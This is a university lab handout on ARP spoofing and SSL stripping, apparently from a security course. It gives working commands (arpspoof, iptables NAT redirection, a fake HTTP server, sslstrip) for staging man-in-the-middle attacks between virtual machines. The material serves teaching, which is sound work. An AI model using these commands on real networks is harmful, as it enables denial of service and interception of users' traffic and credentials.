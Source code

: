# CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.0.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 2), redirect HTTP traffic (port 80) to port 8080 (Mallory's fake server)

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

*As Mallory* (terminal 2), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 1), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## ARP Spoofing (fake HTTPS server)

How could Mallory setup the attack if Alice tries to connect to Mathlab using HTTPS?

```shell
vagrant@alice:~$ curl https://mathlab.utsc.utoronto.ca/
```

## SSLStripping

In this part, rather than redirecting Alice to a fake HTTPS server, Mallory wants to relay traffic between Alice and Mathlab as a man-in-the-middle attack. The goal is to fool Alice into sending non-encrypted HTTPS requests to Mallory.

*As Mallory* (terminal 2), forward all HTTPS traffic to the SSLStrip proxy.

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

Finally:

- *As Alice*, test that (real) Mathlab is now reachable with HTTPS
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic